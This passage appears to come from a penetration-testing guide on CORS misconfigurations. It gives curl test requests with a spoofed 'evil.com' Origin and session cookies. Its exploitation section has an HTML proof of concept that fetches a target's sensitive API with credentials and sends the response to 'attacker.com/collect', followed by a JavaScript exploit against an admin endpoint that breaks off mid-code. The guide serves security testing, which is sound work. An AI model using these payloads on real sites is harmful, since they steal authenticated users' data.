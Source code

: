 ### 2. Actual Cross-Origin Request
```bash
# Follow up with actual request
curl -s -X POST \
  -H "Origin: https://evil.com" \
  -H "Content-Type: application/json" \
  -d '{"test": "data"}' \
  https://target.com/api/endpoint
```

### 3. Credential Inclusion Testing
```bash
# Test with authentication cookies
curl -s -X GET \
  -H "Origin: https://evil.com" \
  -H "Cookie: session=abc123" \
  https://target.com/api/user/profile
```

## Exploitation Strategies

### 1. HTML-Based Exploitation
```html
<!DOCTYPE html>
<html>
<head>
    <title>CORS PoC</title>
</head>
<body>
    <script>
        // Exploit CORS misconfiguration
        fetch('https://target.com/api/sensitive', {
            method: 'GET',
            credentials: 'include'  // Include cookies/auth
        })
        .then(response => response.json())
        .then(data => {
            // Exfiltrate sensitive data
            fetch('https://attacker.com/collect', {
                method: 'POST',
                body: JSON.stringify(data)
            });
        });
    </script>
</body>
</html>
```

### 2. JavaScript-Based Exploitation
```javascript
// Advanced CORS exploitation
const exploitCORS = async () => {
    try {
        // Test if vulnerable endpoint is accessible
        const response = await fetch('https://target.com/api/admin', {
            method: 'POST',
            credentials: 'include',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                'action': 'get_users',
                'admin': true
```